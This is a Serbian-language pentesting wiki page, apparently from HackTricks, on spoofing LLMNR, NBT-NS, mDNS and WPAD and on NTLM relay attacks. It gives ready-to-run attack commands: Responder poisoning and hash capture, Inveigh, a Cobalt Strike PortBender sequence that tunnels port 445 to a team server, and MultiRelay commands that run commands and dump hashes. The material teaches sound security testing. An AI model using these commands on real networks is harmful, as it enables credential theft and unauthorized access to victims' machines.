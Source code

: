 # Falsifikovanje LLMNR, NBT-NS, mDNS/DNS i WPAD i napadi preusmeravanja

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Stručnjak (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Stručnjak (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Mrežni protokoli

### Protokoli za lokalno rešavanje imena domaćina
- **LLMNR, NBT-NS i mDNS**:
- Microsoft i drugi operativni sistemi koriste LLMNR i NBT-NS za lokalno rešavanje imena kada DNS ne uspe. Slično tome, Apple i Linux sistemi koriste mDNS.
- Ovi protokoli su podložni presretanju i falsifikovanju zbog njihove neautentifikovane, emitovane prirode preko UDP-a.
- [Responder](https://github.com/lgandx/Responder) se može koristiti za predstavljanje usluga slanjem lažnih odgovora na hostove koji upituju ove protokole.
- Više informacija o predstavljanju usluga korišćenjem Responder-a možete pronaći [ovde](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protokol za automatsko otkrivanje veb proxy-ja (WPAD)
- WPAD omogućava pretraživačima automatsko otkrivanje podešavanja proxy servera.
- Otkrivanje se olakšava putem DHCP-a, DNS-a, ili prelaskom na LLMNR i NBT-NS ako DNS ne uspe.
- Responder može automatizovati napade WPAD-om, usmeravajući klijente ka zlonamernim WPAD serverima.

### Responder za trovanje protokola
- **Responder** je alat koji se koristi za trovanje LLMNR, NBT-NS i mDNS upita, selektivno odgovarajući na vrste upita, uglavnom ciljajući SMB servise.
- Dolazi preinstaliran u Kali Linux-u, konfigurabilan na lokaciji `/etc/responder/Responder.conf`.
- Responder prikazuje uhvaćene hešove na ekranu i čuva ih u direktorijumu `/usr/share/responder/logs`.
- Podržava IPv4 i IPv6.
- Windows verzija Responder-a je dostupna [ovde](https://github.com/lgandx/Responder-Windows).

#### Pokretanje Responder-a
- Za pokretanje Responder-a sa podrazumevanim podešavanjima: `responder -I <Interfejs>`
- Za agresivnije sondiranje (sa potencijalnim sporednim efektima): `responder -I <Interfejs> -P -r -v`
- Tehnike za hvatanje NTLMv1 izazova/odgovora radi lakšeg dešifrovanja: `responder -I <Interfejs> --lm --disable-ess`
- Impersonacija WPAD-a može se aktivirati sa: `responder -I <Interfejs> --wpad`
- NetBIOS zahtevi mogu se rešiti ka IP adresi napadača, i može se postaviti autentifikacioni proksi: `responder.py -I <interfejs> -Pv`

### Trovanje DHCP-a sa Responder-om
- Falsifikovanje DHCP odgovora može trajno otrovati informacije o rutiranju žrtve, nudeći prikriveniju alternativu ARP trovanju.
- Zahteva precizno poznavanje konfiguracije ciljne mreže.
- Pokretanje napada: `./Responder.py -I eth0 -Pdv`
- Ovaj metod može efikasno uhvatiti NTLMv1/2 hešove, ali zahteva pažljivo rukovanje kako bi se izbegla prekida mreže.

### Hvatanje akreditacija sa Responder-om
- Responder će se predstavljati kao usluge koristeći pomenute protokole, hvatajući akreditacije (obično NTLMv2 Izazov/Odgovor) kada korisnik pokuša da se autentifikuje protiv falsifikovanih usluga.
- Mogu se preduzeti pokušaji da se smanji na NetNTLMv1 ili onemogući ESS radi lakšeg dešifrovanja akreditacija.

Važno je napomenuti da primena ovih tehnika treba da se obavlja legalno i etički, obezbeđujući odgovarajuću autorizaciju i izbegavajući prekide ili neovlašćen pristup.

## Inveigh

Inveigh je alat za testere penetracije i crvene timove, dizajniran za Windows sisteme. Nudi funkcionalnosti slične Responder-u, izvodeći falsifikovanje i napade čoveka u sredini. Alat se razvio iz PowerShell skripte u C# binarni, sa [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) i [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) kao glavnim verzijama. Detaljni parametri i instrukcije mogu se pronaći u [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh se može koristiti putem PowerShell-a:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Ili izvršen kao C# binarni fajl:
```bash
Inveigh.exe
```
### NTLM Relay Napad

Ovaj napad koristi SMB autentikacione sesije kako bi pristupio ciljnom računaru, dodeljujući sistemsku ljusku ako je uspešan. Ključni preduslovi uključuju:
- Autentifikacioni korisnik mora imati lokalni Admin pristup na preusmerenom hostu.
- SMB potpisivanje treba da bude onemogućeno.

#### Preusmeravanje i tuneliranje porta 445

U scenarijima gde direktno umrežavanje nije izvodljivo, saobraćaj na portu 445 treba preusmeriti i tunelirati. Alati poput [**PortBender**](https://github.com/praetorian-inc/PortBender) pomažu u preusmeravanju saobraćaja sa porta 445 na drugi port, što je esencijalno kada je lokalni admin pristup dostupan za učitavanje drajvera.

Postavljanje i rad PortBender-a u Cobalt Strike-u:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Ostali alati za NTLM Relay napad

- **Metasploit**: Podešen sa proxy-jem, lokalnim i udaljenim detaljima hosta.
- **smbrelayx**: Python skripta za preusmeravanje SMB sesija i izvršavanje komandi ili implementaciju zadnjih vrata.
- **MultiRelay**: Alat iz Responder paketa za preusmeravanje određenih korisnika ili svih korisnika, izvršavanje komandi ili ispisivanje heševa.

Svaki alat može biti konfigurisan da radi preko SOCKS proxy-ja ako je potrebno, omogućavajući napade čak i sa indirektnim pristupom mreži.

### Rad MultiRelay-a

MultiRelay se pokreće iz _**/usr/share/responder/tools**_ direktorijuma, ciljajući određene IP adrese ili korisnike.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### Prisiljavanje NTLM prijava

U sistemu Windows **možda ćete moći da prisilite neke privilegovane naloge da se autentifikuju na proizvoljnim mašinama**. Pročitajte sledeću stranicu da biste saznali kako:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Reference
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Naučite i vežbajte hakovanje AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
